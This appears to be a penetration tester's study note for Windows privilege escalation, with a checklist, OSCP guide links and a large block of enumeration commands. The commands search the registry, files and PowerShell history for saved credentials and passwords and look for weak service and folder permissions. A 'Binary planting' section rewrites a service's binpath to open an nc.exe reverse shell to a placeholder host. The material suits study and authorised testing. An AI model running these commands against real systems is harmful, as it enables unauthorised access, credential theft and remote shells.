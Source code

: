 
# Guide

1. Repeat below under every single privilege increase
2. Run [[#Default Commands]]
3. Locate [[Important Enumeration Information]]
4. Run [[#Extra Enumeration Commands]] if nothing is found.



# Table of Contents

1. If a binary is found within a users directory it is likely exploitable.
2. General guide which lists a vast array of exploits and methods of exploitation, see [Privilege Escalation - Windows](https://mysecurityjournal.blogspot.com/p/client-side-attacks.html)
3. See [[Watson]] to find operating system vulnerabilities  
4. Flags may be within network drives, try mapping, see [[Network Drives]]:
5. If any [[Valuable Files#SAM and System Files]] are found, see [[SamDump]]
6. If you have a hash which you cannot crack, see [[Passing the Hash]]
7. If internal ports are found they can be probed by [[Powercat]] 

#### Walkthroughs

1. [OSCP\_Cheat\_sheet/Windows Privilege Escalation Techniques.md at main · xXxhagenxXx/OSCP\_Cheat\_sheet · GitHub](https://github.com/xXxhagenxXx/OSCP_Cheat_sheet/blob/main/Windows%20Privilege%20Escalation%20Techniques.md)
2. [Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
3. [Privilege Escalation - Windows · Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
# Default Commands 

1. `whoami`, see [[Who Am I]]
2. `systeminfo`
3. `ipconfig`
4. `arp /a`, see [[Finding Additional Hosts]]
5. `net users`, see [[Finding Users and Groups]]
6. `net share`, see [[Finding Shared Resources]]
7. `set`
8. [[windows-privesc-check]]
9. [[WinPeas]]
10. [[Windows Exploit Suggester - Next Generation (WES-NG)]]




# Extra Enumeration Commands

```
// What system are we connected to?
Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
Get-WmiObject -Class win32_Process 
Get-WmiObject -Class win32_Service
Get-WmiObject -Class win32_Bios
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get tokens and privileges 
whoami /priv
Get-WmiObject win32_useraccount | Select name,sid

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Get groups
get-LocalGroup | ft Name, SID

// Networking stuff
ipconfig /all

// Get session history 
get-content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine

// Printer?
route print

// ARP-arific
arp -A

// Which protection settings enabled
Get-MpComputerStatus

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all

// Scheduled tasks
schtasks /query /fo LIST /v

// Running processes to started services
tasklist /SVC
net start

// Driver madness
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?
# Use wmic_info script!

// [[Saved Credentials]] 
cmdkey /list

// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic service get name,displayname,pathname,startmode
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
wmic product get name, version, vendor

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

// AutoRun (See [[AutoRun SysInternals]])
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run

// [[Registry Passwords]] 
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Other commands to run to hopefully get what we need
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Service permissions
sc query
sc qc [service_name]
sc qc dllsvc (See [[DLL Hijacking]] )
sc qc regsvc (If NT Auth, see [[RegSVC Writable]])
sc qc filepermsvc (If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]])

// Accesschk stuff
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe /accepteula -uwcqv user daclsvc
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]

driverquery /v /fo csv
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select Object ‘Display Name’, ‘Start Mode’, Path
```
